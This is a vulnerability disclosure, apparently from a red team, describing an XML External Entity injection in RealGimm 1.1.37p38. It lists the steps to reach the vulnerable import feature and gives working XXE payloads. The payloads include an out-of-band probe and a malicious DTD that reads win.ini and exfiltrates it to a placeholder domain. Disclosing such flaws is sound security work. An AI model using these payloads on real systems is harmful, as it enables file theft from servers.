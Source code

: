 # CVE-ID | RealGimm by GruppoSCAI - XML External Entity Injection
An XML External Entity injection vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, we access the function in which the vulnerability is present by clicking on *Gest. Tecnica -> Manutenzioni -> Scheda Visita/Manutenz. * and we click on the import icon:

![Import XML Functionality](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d31fdfd0-63ef-4450-8d32-d90098de6232)

Below the file import window:

![File import window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a29bcc2-934e-4b61-8ebb-edecca0e141a)


To demonstrate the presence of the vulnerability, we first create a file with the following content and import it using the functionality offered by the web application:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://[burp collaborator URL]"> %xxe; ]>
```
![File test.xml with payload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/5d03b262-d80a-480c-88bb-7bbd1fe9234e)

![Import test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/72bf13ad-c62c-4435-a3c7-73152f753a5d)


Below the intercepted request and response:

![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/29790c98-d650-4b4b-9d32-59af598df027)


As seen in the following image, the test.xml file containing the malicious payload is successfully parsed and a http request is issued to the burp collaborator domain:

![Request recevied in burp collaborator](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/513a3abc-574d-484b-ac4f-2487fb77be5e)


Using the vulnerability just described, it is also possible to read any file present on the file system where the xml parser is running. For this purpose, on our attacking machine, we define a malicious.dtd dtd file that allows exfiltrating the contents of file c:/windows/win.ini:

```
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://[exiltration domain]/?x=%file;'>">
%eval;
%exfiltrate;
```
![Malicious dtd file](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/7b78dcd3-cdba-4f94-b3dc-0160549fb14d)


We accordingly update the previously used test.xml file with the following content:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://[exfiltration domain]/malicious.dtd"> %xxe; ]>
```
So let's import the test.xml file as we did previously.
![malicious test.xml](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/ae8646bd-0365-40d3-a0c4-c2403b3d91a8)
![test.xml import](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/04d3efae-6090-489a-8e60-eaeabf90e465)


As can be seen from the following image, from the web server logs, we can successfully exfiltrate the contents of the win.ini file:
![win.ini exfiltrated](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/69cffda1-8b57-4b92-8cd0-297f4296b946)


Below is the decoded content of the exfiltrated file:
![win.ini decoded](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b791a414-78ba-4507-a4e9-d1c129b92c52)

